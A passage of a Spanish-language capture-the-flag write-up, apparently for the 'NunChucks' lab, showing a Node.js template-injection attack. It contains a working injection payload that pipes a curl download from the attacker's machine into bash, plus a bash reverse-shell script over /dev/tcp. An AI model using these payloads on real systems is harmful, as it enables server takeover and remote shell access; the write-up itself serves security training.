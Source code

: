 Bien, si filtramos por node.js en la web de HackTricks encontramos diversos, pero hay uno que tiene un nombre particular y si probamos cada uno de los test darán todos como debería:

![](/imagenes/NunChucks/nun9.png)

Vamos a intentar utilizar el primer **payload**:

![](/imagenes/NunChucks/nun10.png)

Utilizando backslash escapamos las comillas dobles y al enviarlo vemos que ha listado correctamente el archivo **/etc/passwd**, por lo tanto, ahora solo falta ganar acceso.

Para ello utilizaremos el siguiente comando (va en doble llave):

```
range.constructor(\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.17 | bash')\")()
```
Haremos una petición a nuestro servidor http, el cual estará compartiendo este archivo index.html:
```
#!/bin/bash bash -i >& /dev/tcp/10.10.14.17/1235 0>&1 
```
